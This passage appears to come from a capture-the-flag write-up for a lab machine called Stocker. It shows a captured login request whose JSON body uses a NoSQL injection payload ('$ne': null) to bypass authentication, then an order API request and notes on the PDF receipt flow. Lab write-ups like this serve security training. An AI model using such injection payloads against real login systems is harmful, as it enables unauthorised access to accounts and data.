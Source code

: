 ```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 55
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3A8XVW8w791Amd4QZxsCRVUrl7-hfnlp7V.ispsz43tztEA0VsYgsK3XS4vF%2FNjg6pMRBVsqFdRJOk
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null} }
```

Seems like a page where you purchase stuffs
![image](https://user-images.githubusercontent.com/113513376/213948603-9411fac2-24b8-43f8-ba45-c9310058c21f.png)

On clicking on view cart then submit purchase and capturing the request in burp it doesn't really looks like there's something to tamper with

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 328
Connection: close
Cookie: connect.sid=s%3A8XVW8w791Amd4QZxsCRVUrl7-hfnlp7V.ispsz43tztEA0VsYgsK3XS4vF%2FNjg6pMRBVsqFdRJOk

{"basket":[{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
```

Now we can also view our purchase 
![image](https://user-images.githubusercontent.com/113513376/213948742-60eeebf9-8f4a-4289-9869-128fdc6d933a.png)

After clicking on view order purchase it sends the data to an api endpoint then generates a pdf file with the purchase in it
![image](https://user-images.githubusercontent.com/113513376/213948901-c27d6e56-2841-4596-80bf-5b2a83f3a97c.png)
